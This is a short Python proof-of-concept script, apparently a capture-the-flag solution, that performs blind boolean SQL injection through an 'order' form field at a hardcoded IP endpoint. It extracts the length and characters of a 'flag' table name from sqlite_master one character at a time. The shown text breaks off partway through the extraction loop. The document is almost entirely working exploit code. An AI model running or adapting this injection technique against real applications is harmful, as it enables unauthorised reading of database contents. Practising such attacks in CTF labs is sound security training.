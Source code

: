 
poc:

```
import requests, time


def send_payload(url, sqli):
    _headers = {"User-Agent": "Mozilla/5.0 (X11; Linux x86_64; rv:84.0) Gecko/20100101 Firefox/84.0",
                "Accept": "text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8",
                "Accept-Language": "en-US,en;q=0.5", "Accept-Encoding": "gzip, deflate", "Connection": "close",
                "Upgrade-Insecure-Requests": "1", "Cache-Control": "max-age=0",
                "Content-Type": "application/x-www-form-urlencoded"}
    _data = {"order": sqli}
    resp = requests.post(url, headers=_headers, data=_data).text
    if 'alien' in resp:
        return True
    else:
        return False


def sqli():
    url = "http://94.237.51.179:45595/api/list"

    sqli_temp = '1 limit _LEFT_ = _RIGHT_'

    left = '(select length(name) from sqlite_master where name like \'flag%\')'

    for i in range(1, 21):

        sqli = sqli_temp.replace('_LEFT_', left)
        sqli = sqli.replace('_RIGHT_', str(i))

        print(i, end='\r')

        res = send_payload(url, sqli)

        if res:
            dataLength = i
            break

    print("\n\n[+] Found tablename length: %s\n" % dataLength)

    flag_table = 'flag_'

    # extract flag table name

    for charPos in range(6, dataLength + 1):

        left = '(select unicode(substr(name,_POS_,1)) from sqlite_master where name like \'flag%\')'.replace('_POS_',
                                                                                                             str(charPos))

        for char in range(32, 127):
            sqli = sqli_temp.replace('_LEFT_', left)
            sqli = sqli.replace('_RIGHT_', str(char))

            res = send_payload(url, sqli)

            if res:
                flag_table = flag_table + chr(char)
```